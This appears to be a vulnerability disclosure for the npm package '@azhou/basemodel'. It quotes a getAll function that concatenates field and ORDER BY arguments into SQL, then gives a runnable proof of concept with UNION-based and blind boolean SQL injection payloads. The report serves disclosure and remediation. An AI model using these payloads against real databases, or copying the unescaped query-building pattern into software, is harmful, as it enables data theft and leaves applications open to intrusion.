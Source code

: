 ## Vulnerability Description

- All table names and fields arguments of all methods are fed directly into query by string concatenation without escaping which may lead to sql injection.
- Order by field of `model.getAll(fields, orderby)` is not escaped and directly used in query which lead to blind sql injection:
```js
	model.getAll = function (fields, orderby) {
		if (typeof fields == 'string') {
			orderby = fields;
			fields = allFields;
		} else if (Array.isArray(fields) && (typeof orderby == 'string' || !orderby)) {
			if (fields.length == 0)
				fields = allFields;
		} else {
			fields = allFields;
			orderby = "";
		}

		return db.query("SELECT id," + fields.join(",") + " FROM `" + table + "`"
			+ (orderby ? " ORDER BY " + orderby : ""));
	}
```

## Steps To Reproduce:

Example POC:
```
var db = require("@azhou/mysql-wrapper");
db.init("localhost", "mysql", "root", "");

(async () => {
	await db.query("CREATE TABLE IF NOT EXISTS test(id int not null PRIMARY KEY AUTO_INCREMENT, ckey varchar(255), cvalue varchar(255));");
	await db.query("TRUNCATE TABLE test;");

	var model = require("@azhou/basemodel")("test", ["ckey","cvalue"]);
	
	for(var i=0;i<10;i++)
		await model.create({ckey: `k${i}`, cvalue: `v${i}`});
	
	console.log('- get all (normal)');
	console.log(await model.getAll(["ckey", "cvalue"]))

	console.log('- get all (sqli)');
	console.log(await model.getAll(["ckey", "cvalue from test where 1=0 union all select 0, 'sqli','sqli'#"]))

	console.log('- get all (bsqli in order by)');
	console.log(await model.getAll(["ckey", "cvalue"], 'IF(1=1, id, -id) LIMIT 1'))
	console.log(await model.getAll(["ckey", "cvalue"], 'IF(1=0, id, -id) LIMIT 1'))
})()
```
